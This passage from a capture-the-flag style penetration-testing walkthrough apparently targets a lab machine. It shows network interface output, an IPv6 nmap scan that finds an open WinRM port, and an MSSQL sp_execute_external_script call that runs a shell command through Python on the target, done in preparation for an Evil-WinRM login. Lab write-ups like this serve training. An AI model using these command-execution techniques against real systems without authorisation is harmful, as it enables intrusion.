     
    Ethernet adapter Ethernet0:
    
       Connection-specific DNS Suffix  . : 
       IPv6 Address. . . . . . . . . . . : dead:babe::1001
       Link-local IPv6 Address . . . . . : fe80::ad9a:ad0:ce4:4cc2%7
       IPv4 Address. . . . . . . . . . . : 10.13.38.11
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : dead:babe::1
                                           10.13.38.2
    
    Ethernet adapter Ethernet1:
    
       Connection-specific DNS Suffix  . : 
       IPv4 Address. . . . . . . . . . . : 172.20.128.101
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 
    
    Express Edition will continue to be enforced.
    

### IPv6 Enumeration

Running `nmap` again on the IPv6 shows that there is a third port that is not
firewalled off, 5985:

    
    
    root@kali# nmap -p- -6 --min-rate 10000 dead:babe::1001
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-05 05:59 EDT
    Nmap scan report for intranet.poo (dead:babe::1001)
    Host is up (0.081s latency).
    Not shown: 65532 filtered ports
    PORT     STATE SERVICE
    80/tcp   open  http
    1433/tcp open  ms-sql-s
    5985/tcp open  wsman
    
    Nmap done: 1 IP address (1 host up) scanned in 13.60 seconds
    

### Shell

I can connect to this over WinRM using Evil-WinRM. To do an IPv6 connection,
I’ll add the ip to my local `/etc/hosts` file. The hostname the box returns is
`COMPATIBILITY`:

    
    
    SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("hostname");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    COMPATIBILITY
    

So I’ll use that in `/etc/hosts`:

    
    
    dead:babe::1001 compatibility
    